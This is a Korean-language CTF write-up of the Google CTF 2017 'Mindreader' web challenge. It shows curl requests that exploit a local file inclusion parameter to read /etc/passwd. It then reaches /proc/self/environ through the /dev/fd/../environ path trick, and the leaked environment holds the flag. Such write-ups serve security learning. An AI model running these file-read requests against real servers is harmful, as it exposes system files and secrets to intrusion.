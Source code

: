 ```yaml
---
layout: post
title:  "[Google CTF 2017] Mindreader"
date:   2017-06-19
excerpt: "Mindreader"
tag:
- Google CTF
- Web
- Writeup
---
```


## Description

> Can you read my mind?

> Challenge running at [https://mindreader.web.ctfcompetition.com/][1]

## Exploit

문제 페이지는 다음과 같다.

```html
<html>
<head>
</head>
<body>
    <p>Hello, what do you want to read?</p>
    <form method="GET">
        <input type="text" name="f">
        <input type="submit" value="Read">
    </form>
</body>
</html>
```
`https://mindreader.web.ctfcompetition.com/?f=` 와 같은 방법으로 파일 내부를 볼 수 있는 것 같다.

단순 LFI 문제처럼 보인다.

시험삼아 `/etc/passwd`를 호출해보았다.

```bash
osehun-ui-MacBook-Pro:~ osehun$ curl "https://mindreader.web.ctfcompetition.com/?f=/etc/passwd"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
```

정상적으로 `/etc/passwd`가 호출됨을 알 수 있다.

하지만 어느 폴더에 어떤 파일이 존재하는지 모르기에 `/proc/self/environ`을 열어보기로 했다.

```bash
osehun-ui-MacBook-Pro:~ osehun$ curl "https://mindreader.web.ctfcompetition.com/?f=/proc/self/environ"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don\'t have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
```

권한이 없음을 확인할 수 있으므로, `/proc/self/environ`을 다른 방법으로 열어보자.

```bash
parallels@ubuntu:~$ ls -al /dev/fd
lrwxrwxrwx 1 root root 13 May 27 01:57 /dev/fd -> /proc/self/fd
parallels@ubuntu:~$ ls -al /dev/fd/../environ
-r-------- 1 parallels parallels 0 Jun 19 15:24 /dev/fd/../environ
```

위와 같은 방법으로 `environ`을 열 수 있다.

`/dev/fd/../environ`을 서버에 요청해보자.

```bash
osehun-ui-MacBook-Pro:~ osehun$ curl "https://mindreader.web.ctfcompetition.com/?f=/dev/fd/../environ"

GAE_MEMORY_MB=614HOSTNAME=01a857a265fb
GAE_INSTANCE=aef-mindreader--sss6w3uqjfrcntmn-20170618t144344-dv60
PORT=8080
HOME=/root
PYTHONUNBUFFERED=1
GAE_SERVICE=mindreader-sss6w3uqjfrcntmn
PATH=/env/bin:/opt/python3.5/bin:/opt/python3.6/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binGAE_DEPLOYMENT_ID=402060873983974243
LANG=C.UTF-8
DEBIAN_FRONTEND=noninteractive
GCLOUD_PROJECT=ctf-web-kuqo48d
GOOGLE_CLOUD_PROJECT=ctf-web-kuqo48d
CHALLENGE_NAME=mindreader
VIRTUAL_ENV=/envPWD=/home/vmagent/app
GAE_VERSION=20170618t144344
FLAG=CTF{ee02d9243ed6dfcf83b8d520af8502e1}
```

Flag를 얻을 수 있다.

Flag is `CTF{ee02d9243ed6dfcf83b8d520af8502e1}`

[1]: https://mindreader.web.ctfcompetition.com/
